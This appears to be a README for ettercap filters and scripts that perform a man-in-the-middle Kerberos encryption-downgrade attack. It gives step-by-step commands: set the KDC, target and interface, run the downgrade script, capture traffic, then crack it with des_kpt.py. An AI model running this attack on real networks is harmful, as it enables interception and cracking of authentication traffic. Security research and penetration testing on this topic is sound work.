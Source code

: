 krb5_ettercap
-------------

I've provided a couple of ettercap filters for downgrading kerberos to `des-cbc-crc`. Once `des-cbc-md5` support is added to `des_kpt`, it should be trival to change the python scripts to downgrade to `des-cbc-md5` instead, but it doesn't seem to be as common as `des-cbc-crc`.

It's recommended that you use the `*-asreq.*` scripts as they're the most reliable at this point.

The `*-preauth.*` scripts require adjusting the packet size which can cause issues with tcp MITM with ettercap and needs some more work.

**Running the downgrade attack**

First edit the `krb5-downgrade-asreq.sh` file to specify the `KDC`, `TARGET`, and `ETH` adapter:

```
$ vi krb5-downgrade-asreq.sh

...
export KDC="192.168.1.11"
export TARGET="192.168.1.27"
export ETH="enp0s3"
...
```

Then just run the script:

```
$ ./krb5-downgrade-asreq.sh
```

This will MITM the connection between the `KDC` and `TARGET` and replace the supported encryption types in all of the `TARGET` -> `KDC` `AS-REQ` packets with `des-cbc-crc` and should downgrade all encrypted communication (TGS, Authenticators, etc) to `des-cbc-crc` and log it to `/tmp/ettercap.pcap` which you can then use to crack using `des_kpt`:

```
$ cd ..
$ ./des_kpt.py kerb -i /tmp/ettercap.pcap
```

See `../README.md` for more detailed usage of `des_kpt.py`.
